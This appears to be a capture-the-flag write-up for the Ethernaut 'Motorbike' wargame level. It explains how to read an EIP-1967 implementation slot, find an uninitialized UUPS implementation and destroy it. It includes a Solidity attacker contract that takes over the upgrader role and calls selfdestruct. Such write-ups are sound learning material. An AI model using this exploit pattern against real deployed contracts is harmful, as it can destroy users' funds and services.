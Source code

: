 # Motorbike Ethernaut

## Goals

=> Ethernaut's motorbike has a brand new upgradeable engine design.

=> Would you be able to selfdestruct its engine and make the motorbike unusable ?

### Hints

- EIP-1967
- UUPS upgradeable pattern
- Initializable contract

### Solution

- We need to become the `upgrader` to be able to call the only external function, if we can achieve that we can call `upgradeAndCall()` and point to our new "Implementation" which will just be a contract that implements a function that uses `selfdestruct`

- By querying the storage slot of the `_IMPLEMENTATION_SLOT` constant like `await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")` in the ethernaut console, we can see what value is stored at that slot which will give us the implementation address `0x38b8daa1c50992832ed0f9f30520a7e232ad3ae6` now we can look inside that address for the `owner` variable, when checking that, we will see its set to the zero address which means this contract has not been initialized properly

- Now we can build a smart contract that implements a function that initializes the `Engine` contract and then calls a function inside the `upgradeAndCall()` function that then uses the `selfdestruct()` function

### Attacker Contract

```solidity
contract Hack {
    // Implementation Slot: "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
    // Implementation Slots value: "0x00000000000000000000000038b8daa1c50992832ed0f9f30520a7e232ad3ae6"
    // => Implementation address = 0x38b8daa1c50992832ed0f9f30520a7e232ad3ae6
    // upgrader = 0x0000000000000000000000000000000000000000

    function attack(Engine _engine) external {
        _engine.initialize();
        _engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSelector(this.destroyEngine.selector)
        );
    }

    function destroyEngine() external {
        selfdestruct(payable(address(0)));
    }
}
```
